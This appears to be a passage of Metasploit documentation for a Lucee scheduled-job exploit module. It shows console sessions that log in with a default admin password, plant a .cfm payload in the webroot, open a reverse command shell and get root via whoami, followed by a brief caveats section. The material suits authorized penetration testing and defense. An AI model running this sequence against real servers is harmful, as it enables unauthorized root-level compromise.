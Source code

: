 ```
[*] Using URL: http://192.168.19.145:8081/CUyWHyD6Y.cfm
[+] Job CUyWHyD6Y created successfully
[+] Job CUyWHyD6Y updated successfully
[*] Executing scheduled job: CUyWHyD6Y
[+] Job CUyWHyD6Y executed successfully
[*] Attempting to access payload...
[*] Payload request received for /CUyWHyD6Y.cfm?RequestTimeout=50 from 192.168.19.145
[*] Attempting to access payload...
[*] Received 500 response from CUyWHyD6Y.cfm Check your listener!
[+] Exploit completed.
[*] Removing scheduled job CUyWHyD6Y
[+] Scheduled job removed.
[+] Deleted /srv/www/app/webroot/CUyWHyD6Y.cfm
[*] Command shell session 1 opened (192.168.19.145:4444 -> 192.168.19.145:58686) at 2023-02-28 19:56:11 -0600
[*] Server stopped.

whoami
root
```
### Successful exploitation of a Docker host running Lucee 5.1.4.19 executing whoami
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/generic
payload => cmd/unix/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/GCHSFzGe.cfm
[+] Job GCHSFzGe created successfully
[+] Job GCHSFzGe updated successfully
[*] Executing scheduled job: GCHSFzGe
[+] Job GCHSFzGe executed successfully
[*] Attempting to access payload...
[*] Payload request received for /GCHSFzGe.cfm?RequestTimeout=50 from 192.168.19.145
[+] Received 200 response from GCHSFzGe.cfm
[+] Output: root
[+] Exploit completed.
[*] Removing scheduled job GCHSFzGe
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of '/srv/www/app/webroot/GCHSFzGe.cfm' on the target
[*] Exploit completed, but no session was created.
```
## Caveats
There are a few caveats worth mentioning that are inherent to Lucee's implementation of ColdFusion
 - When a shell command returns multiple lines of output, coldfusion may limit the amount that is returned; i.e. it
   will return the full value of an `ls` command, but it may not return the full value of `netstat`
